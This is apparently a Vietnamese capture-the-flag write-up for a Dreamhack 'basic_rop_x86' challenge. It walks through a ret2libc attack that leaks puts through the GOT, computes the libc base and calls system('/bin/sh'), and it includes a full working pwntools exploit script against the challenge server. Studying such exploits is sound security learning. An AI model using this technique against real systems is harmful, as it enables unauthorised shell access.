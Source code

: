 - Challenge cho ta file libc nên ta cần leak địa chỉ libc để gọi hàm `system(/bin/sh)` trong libc để chiếm shell
- xem các hàm có trong file thực thi
![image](https://hackmd.io/_uploads/ByrkO6rvR.png)
- Để leak địa chỉ libc thì cần leak địa chỉ của `puts` 
- Dùng `puts@plt` để in ra địa chỉ `puts@got` sau đó trừ địa chỉ `puts` trong libc sẽ ra địa chỉ cơ sở của libc
- Sau đó quay lại hàm `main` và nhập tiếp lần 2 và đưa lệnh `system` trong libc với tham số `/bin/sh` để chiếm shell và đọc flag
### Script 
```python=
#!/usr/bin/python3

from pwn import *

exe = ELF('./basic_rop_x86',checksec=False)
libc = ELF('./libc.so.6',checksec=False)

pop_ebx = 0x080483d9

#p = process(exe.path)
p = remote('host1.dreamhack.games', 16486)

payload = b'A'*72
payload += p32(exe.plt['puts'])
payload += p32(exe.sym['main'])
payload += p32(exe.got['puts'])

#input()
p.send(payload)

p.recvuntil(b'A'*64)
puts_leak = u32(p.recv(4))
libc.address = puts_leak - libc.sym['puts']
log.info(hex(puts_leak))
log.info(hex(libc.address))

payload = b'A'*72
payload += p32(libc.sym['system']) 
payload += p32(pop_ebx)
payload += p32(next(libc.search(b'/bin/sh')))

p.sendline(payload)

p.interactive()
```
# 